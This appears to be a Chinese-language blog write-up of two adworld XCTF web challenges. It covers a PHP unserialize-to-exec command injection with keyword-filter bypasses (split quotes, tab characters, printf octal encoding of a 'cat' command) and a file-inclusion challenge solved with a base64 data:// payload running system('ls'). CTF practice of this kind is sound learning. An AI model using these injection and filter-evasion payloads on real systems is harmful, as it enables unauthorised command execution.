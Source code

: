 ### [unseping](https://adworld.xctf.org.cn/challenges/details?hash=3714626e-3a5b-11ed-abf3-fa163e4fa609&task_category_id=3)

这道题好难，看WP做的

```php
<?php
highlight_file(__FILE__);

class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}

$ctf=@$_POST['ctf'];
@unserialize(base64_decode($ctf));
?>
```

进入后看到的代码如上，先研究代码

`@unserialize(base64_decode($ctf))`对于post的参数解码后反序列化

`__wakeup`用于unserialize时会调用该方法

其中的`waf()`用于过滤，使用了`preg_match_all`函数

最后在析构函数中in_array比较，检测method是不是在数组array("ping")里面

```php
<?php
highlight_file(__FILE__);

class ease{
    
    private $method;
    private $args;
    function __construct($method, $args) {
        $this->method = $method;
        $this->args = $args;
    }
 
    function __destruct(){
        if (in_array($this->method, array("ping"))) {
            call_user_func_array(array($this, $this->method), $this->args);
        }
    } 
 
    function ping($ip){
        exec($ip, $result);
        var_dump($result);
    }

    function waf($str){
        if (!preg_match_all("/(\||&|;| |\/|cat|flag|tac|php|ls)/", $str, $pat_array)) {
            return $str;
        } else {
            echo "don't hack";
        }
    }
 
    function __wakeup(){
        foreach($this->args as $k => $v) {
            $this->args[$k] = $this->waf($v);
        }
    }   
}
$a=new ease('ping',array(urldecode('pwd')));
echo urlencode(base64_encode(serialize($a)));
?>
```

构造序列化字符串，可以查看到当前目录是/var/www/html

`$a=new ease('ping',array(urldecode('l\'\'s')));`这里使用了单引号隔开绕过waf

得到的结果如下：

> array(2) { [0]=> string(12) "flag_1s_here" [1]=> string(9) "index.php" }

之后查看flag_1s_here应该就可以，使用`'ca\'\'t%09fla\'\'g_1s_here'`

结果发现是空的......是因为权限不够.....劝退了，后面的方法见https://blog.csdn.net/JIN_7X/article/details/127062413

然后看攻防世界里面给的WP，它是这么写的

```php
$a = new ease("ping",array('$(printf	"\143\141\164\40\146\154\141\147\137\61\163\137\150\145\162\145\57\146\154\141\147\137\70\63\61\142\66\71\60\61\62\143\66\67\142\63\65\146\56\160\150\160")'));
$b = serialize($a);
echo $b;
echo base64_encode($b);
```

那一长串8进制ASCII解码后是cat flag_1s_here/flag_831b69012c67b35f.php，原来前面的是个目录，目录里面的才是flag，而且这招printf加ASCII编码的方法直接绕过了，真心秀！

那按照之前的方法应该是

`$a=new ease('ping',array(urldecode('l\'\'s%09fla\'\'g_1s_here')));`

发现可以找到flag_831b69012c67b35f.php，然后再查看文件，具体绕过方法以后再学吧，就到这里。



### [file_include](https://adworld.xctf.org.cn/challenges/details?hash=ceb014e8-3a5a-11ed-abf3-fa163e4fa609&task_category_id=3)

```php
<?php
highlight_file(__FILE__);
    include("./check.php");
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```

进去同样是代码，可以通过include进行文件上传，但是我试了半天都失败了

证明又有过滤！遇事不决，WP

```
filename=data://text/plain;base64,PD9waHAgc3lzdGVtKCJscyIpPz4=
base64解密为<?php system("ls")?>
```

data://是一种伪协议，本题中要用php://伪协议。

不说了，我没完全搞懂，直接上链接

https://blog.csdn.net/cocoaiu/article/details/126319957

告辞！以后再来！
